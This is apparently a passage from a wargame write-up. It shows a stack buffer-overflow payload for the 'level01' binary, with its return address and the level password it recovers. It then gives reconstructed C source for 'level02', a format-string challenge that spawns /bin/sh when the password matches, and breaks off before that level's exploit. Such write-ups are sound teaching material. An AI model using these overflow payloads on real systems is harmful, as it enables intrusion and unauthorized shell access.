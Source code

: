 Then, I need to get the address of the environment variables for the EIP to jump to. I used the `x/s *((char **)environ)` command in GDB and got the following output. As we can see, we have the address to our shellcode. I have added 20 to the final input because gdb has set **some env vars that might affect the accuracy of this reading**.
![image](https://hackmd.io/_uploads/S1yqYSPIT.png)

```
(python -c 'print "dat_wil" + "\n" + "B" * 80 + "\x81\xd8\xff\xff"'; cat) | ./level01
```

![image](https://hackmd.io/_uploads/SJoD_rDU6.png)

`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` is the password.

## level02 (format string vulnerability)
```clike=
int main()
{
    FILE *open_passfile;
    int read_pass_status;
    char username[100]; // 0x70 - 0xc
    char pass_file_content[48]; // 0xa0 - 0x70
    char pass[112]; // 0x110 - 0xa0
    
    memset(username, 0, 12);
    memset(pass_file_content, 0, 5);
    memset(pass, 0, 12);
    
    open_passfile = fopen("/home/users/level03/", "r");
    if (!open_passfile)
    {
        fwrite("ERROR: failed to open password file", 1, 36, stderr);
        exit(1);
    }
    
    read_pass_status = fread(pass_file_content, 1, 41, open_passfile);
    pass_file_content[strcspn(pass_file_content, "\n")] = 0;
    if (!read_pass_status)
    {
        frwite("ERROR: failed to read password file", 1, 36, stderr);
        exit(1);
    }
    fclose(open_passfile);
    
    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    printf("--[ Username:");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = 0;
    printf(" --[ Password:");
    fgets(pass, 100, stdin);
    pass[strcspn(pass, "\n")] = 0;
    
    puts("*****************************************");
    if (strncmp(pass_file_content, pass, 41) == 0)
    {
        printf("Greetings, %s!", username);
        system("/bin/sh");
        return 0;
    }
    else
    {
```
